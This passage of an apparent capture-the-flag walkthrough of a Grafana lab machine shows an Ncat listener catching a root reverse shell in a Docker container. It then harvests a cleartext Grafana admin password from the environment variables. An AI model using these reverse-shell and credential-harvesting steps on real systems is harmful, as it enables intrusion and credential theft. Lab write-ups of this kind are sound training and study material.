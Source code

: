 We get a call-back to our listener!

```
Ncat: Connection from 10.129.241.200.
Ncat: Connection from 10.129.241.200:43144.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@7ce659d667d7:~#
```

# User
Looking around we notice that we're in a docker environment through the presence of `.dockerenv` in the root directory.

```
root@7ce659d667d7:/# ls -la
ls -la
total 60
drwxr-xr-x   1 root root 4096 Apr  4 10:23 .
drwxr-xr-x   1 root root 4096 Apr  4 10:23 ..
-rwxr-xr-x   1 root root    0 Apr  4 10:23 .dockerenv
lrwxrwxrwx   1 root root    7 Apr 27  2024 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 18  2022 boot
drwxr-xr-x   5 root root  340 May 10 19:23 dev
drwxr-xr-x   1 root root 4096 Apr  4 10:23 etc
drwxr-xr-x   1 root root 4096 May 14  2024 home
lrwxrwxrwx   1 root root    7 Apr 27  2024 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Apr 27  2024 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Apr 27  2024 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Apr 27  2024 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Apr 27  2024 media
drwxr-xr-x   2 root root 4096 Apr 27  2024 mnt
drwxr-xr-x   2 root root 4096 Apr 27  2024 opt
dr-xr-xr-x 287 root root    0 May 10 19:23 proc
drwx------   1 root root 4096 Apr  4 12:43 root
drwxr-xr-x   5 root root 4096 Apr 27  2024 run
-rwxr-xr-x   1 root root 3306 May 14  2024 run.sh
lrwxrwxrwx   1 root root    8 Apr 27  2024 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Apr 27  2024 srv
dr-xr-xr-x  13 root root    0 May 10 19:23 sys
drwxrwxrwt   1 root root 4096 May 10 22:24 tmp
drwxr-xr-x   1 root root 4096 Apr 27  2024 usr
drwxr-xr-x   1 root root 4096 Apr 27  2024 var
```

If we take a look at our `env` we can see cleartext Grafana credentials for the user `enzo`

```
root@7ce659d667d7:/# env
env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
```